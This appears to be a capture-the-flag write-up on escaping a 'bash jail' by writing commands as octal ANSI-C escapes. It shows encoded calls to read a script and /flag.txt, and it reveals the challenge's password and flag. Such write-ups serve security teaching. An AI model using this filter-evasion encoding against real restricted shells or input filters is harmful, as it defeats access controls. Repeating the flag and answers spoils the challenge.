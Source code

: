 It seems like we are stuck in some kind of bash jail.
Every command seems to return 'Invalid input, bash crashed'

After some trying it seems some characters are actually allowed and mainly any alphabetic characters in the input are being errored on.

At least the following characters are available since it returns the error $ command not found

```
0123456789 
$#/\'
```

This means we could try to generate some commands from converting these. We can easily get the octal value for the requested script and password from cyberchef by using the "To octal"


```
$'\57\160\162\151\156\164\146\154\141\147\56\163\150' 
$'\102\64\163\150\137\142\162\60\124\110\63\162\163'

```

This results in the following error:
`You may not pass!`

After, I decided to verify the contents of the file by using 'cat'

```
$'\143\141\164' $'\57\160\162\151\156\164\146\154\141\147\56\163\150'
```

This gave back the following:
```
#!/bin/bash
if [[ $1 = "B4sh_br0TH3rs" ]]; then
  echo "Congrats, here's your flag:"
  cat /flag.txt
  echo ""
else 
  echo "You may not pass!"
fi
```

Probably the input does not parse correctly for some reason, so the easy solution is to just read the flag with `cat flag.txt`

```
$'\143\141\164' $'\57\146\154\141\147\56\164\170\164'
```

Returning the flag
he2023{gr34t_b4sh_succ3ss!}